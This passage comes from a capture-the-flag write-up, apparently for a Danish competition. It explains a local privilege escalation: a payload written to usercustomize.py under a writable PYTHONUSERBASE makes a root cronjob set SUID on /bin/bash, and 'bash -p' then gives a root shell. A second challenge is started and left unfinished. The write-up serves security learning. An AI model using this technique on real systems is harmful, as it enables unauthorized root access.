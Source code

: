 ```py
        "Release": platform.release(),
        "OS Version": platform.version(),
        "Machine": platform.machine(),
        "Processor": platform.processor(),
        "Random Number": random.randint(1, 100)
    }
    
    with open(DEBUG_FILE, "w") as file:
        file.write(f"Timestamp: {timestamp}\n")
        for key, value in random_debug_info.items():
            file.write(f"{key}: {value}\n")

if __name__ == "__main__":
    write_debug_info()
```

A very important thing to notice from the Dockerfile is the following line:
```dockerfile
RUN echo "PYTHONUSERBASE=/tmp" >> /etc/environment
```

As this allows us write files to the python environment. To utilize this, we can create the following folder structure:
``/tmp/lib/python3.10/site-packages/``.

This allows us to write a "malicious" file into ``sitecustomize.py`` that allows us to become root.

By reading the Python docs, we can learn that ``sitecustomize.py`` is always imported when running python. Therefore we can write our payload to that file:
```bash
printf 'import os\nos.system("chmod u+s /bin/bash")\n' > /tmp/lib/python3.10/site-packages/usercustomize.py
```

After this we just need to wait for the cronjob to run. This sets the SUID on ``bash`` so we can just use ``bash -p`` to spawn a root shell. 

To check wether or not the payload has worked we can run ``ls -la /bin/bash`` and look for the SUID bit. It will show the SUID (s) bit like this when the payload has worked:
```bash
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
```
Now we just run ``bash -p`` and we have a root shell and we can get our flag!

``DDC{n1ce_pr1v3sc_nu_du_R00000000oo0o0o0o00000t}``


## Misc
### Empowering DevOps Security 2
###### 709pts - 6 solves
> Velkommen til Empowering DevOps Security (EDS)-teamet! Vi er spændte på at starte vores samarbejde! Ulduar er vores nyeste Flask-app-projekt. Kig gerne rundt i Ulduar, men lad være med at røre ved noget, da en af vores andre udviklere er lidt følsom overfor dette projekt. Vi mener, at de fleste Python-images er lidt for store, så vi arbejder på at udvikle vores eget, som skal bruges i vores Ulduar-projekt. Vi vil sætte pris på, hvis du kan hjælpe med at færdiggøre det i Icecrown.
> 
> Vi har oprettet en ny bruger til dig:<br>
> Brugernavn: Alice<br>
> Adgangskode: password
TODO: WRITE FULLY

